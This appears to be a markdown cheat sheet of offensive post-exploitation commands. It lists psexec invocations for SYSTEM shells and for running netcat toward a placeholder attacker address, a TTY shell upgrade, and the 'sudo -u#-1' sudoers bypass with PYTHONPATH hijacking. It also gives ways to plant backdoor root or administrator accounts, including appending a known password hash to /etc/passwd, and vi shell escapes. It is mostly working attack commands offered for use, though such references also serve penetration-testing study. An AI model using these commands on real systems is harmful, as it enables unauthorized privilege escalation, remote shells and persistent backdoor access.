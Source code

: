 # [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
#### `psexec.exe -s -i cmd.exe`
#### `psexec.exe -s nc.exe X.X.X.X YYY`
#### `psexec.exe \\X.X.X.X -u <username> -p <password> -h cmd.exe`
  * -s runs the command as system
  * -i runs the commans interactively
  * -h runs the command with heightened privileges
  * -c copies the executable to the remote system

# [shell to TTY](https://netsec.ws/?p=337):
#### `python3 -c 'import pty; pty.spawn("/bin/sh")'`
#### `export TERM=screen`

# [sudo](https://linux.die.net/man/8/sudo):
#### `sudo -l`
#### `sudo -V`
#### `sudo PYTHONPATH=/path/to/current script.py`
#### `sudo -u#-1 <command>`
  * -l shows the allowed commands for the given user
  * -V shows the version
  * you can hijack an import and change the python path in the same command
  * -u#<number> attempts to run the command as a specific user id where both -1 maps to root. This specifically only bypasses a sudoers rule that allows users that are not root from running a command

# [useradd](https://linux.die.net/man/8/useradd):
#### `useradd -p $(openssl passwd -1 <password>) -g 0 -ou 0 -s /bin/sh <username>`
#### `echo '<username>:aa7JaDfeyG8m6:0:0:<username>:/root:/bin/bash' >> /etc/passwd`
#### `net localgroup Administrators <username> /add`
  * -g adds user to a group
  * -o allows user UID to be a duplicate of an existing one
  * -u adds the UID pf the user
  * if you can run a command as root, you can use the second example to create a root user with the password `gimme`
  * the last one is Windows

# [vi](https://linux.die.net/man/1/vi):
#### `sudo vi -c '!sh'`
#### `sudo vi test.sh` --> `:!bash`
#### `sudo vi ~/.ssh/authorized_keys`
  * -c runs a command
  * -x encrypt output
